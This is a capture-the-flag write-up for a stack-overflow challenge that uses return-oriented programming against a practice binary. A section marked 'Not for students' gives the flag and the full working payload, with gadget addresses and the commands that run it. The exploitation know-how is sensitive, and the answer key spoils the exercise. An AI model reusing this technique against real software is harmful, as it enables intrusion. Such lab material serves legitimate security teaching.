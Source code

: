 # Writeup

This is a Return-Oriented Programming Challenge (ROP) in assemply. The goal is to execute the function `win()`, while putting the value "3" in rax, and the value "2" in rbx.
For this challenge, you are provided with a binary called "rop" where the challenge takes place, and an auxiliary binary called "hex2raw" which converts a hex string to raw bytes.

The binary was compiled as follows: gcc -o rop rop.c -fno-stack-protector -no-pie -z execstack

Notice there is no stack protection, so we can overwrite the return address of the function `bof()` with the address of `win()`. However, we need to put the values "3" and "2" in rax and rbx respectively, so we need to find a way to do that.

hex2raw takes a .txt file, and converts it to raw bytes. The file should be in individual hex bytes separated by spaces.
For example, proper formating of an input file "test.txt" could be:
```
48 89 e5 48 83 ec 10 48 8d 3d 00 00 00 00 48 8d
35 00 00 00 00 48 89 c7 48 89 d8 48 89 f9 48 89
da 48 89 fb 48 89 fc 48 89 fd 48 89 fe 48 89 ff
48 89 c6 b0 03 48 89 df b0 02 0f 05
```

The size of the buffer to be overflowed is 40 bytes.

gdb is your best friend in the entire world for this challenge. You can use it to disassemble the binary, and find the addresses of the gadgets you need.

If you try to cheat, say by artifically injecting values into the registers with gdb and skipping some checks, your flag will not be the correct one, so be careful.

Good luck!

# Not for students:

The flag is: CTF_SDaT{AW3s0m3_J0b_0n_th3_Ch4113ng3}

The challenge is solved by producing an input string that will overwrite the return address of the function `bof()` with the address of `win()`, and also put the values "3" and "2" in rax and rbx respectively.

To do so, we create an input file "input.txt" with the following content:
```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 4c 14 40 00 00 00 00 00 03 00 00 00 00 00 00 00 14 15 40 00 00 00 00 00 02 00 00 00 00 00 00 00 96 11 40 00 00 00 00 00 

```

Where the first 40 bytes are filler, the next 8 bytes are the address of a gadget that pops rax, the next 8 bytes are the value "3", the next 8 bytes are the address of a gadget that pops rbx, the next 8 bytes are the value "2", and the last 8 bytes are the address of `win()`.

The address of the gadget that pops rax is 0x0040144c, and the address of the gadget that pops rbx is 0x00401514.

The address of `win()` is 0x00401196.

The input file is then converted to raw bytes with the following command:
```
./hex2raw < input.txt > raw.txt
```

The raw bytes are then piped into the binary with the following command:
```
./rop < raw.txt
```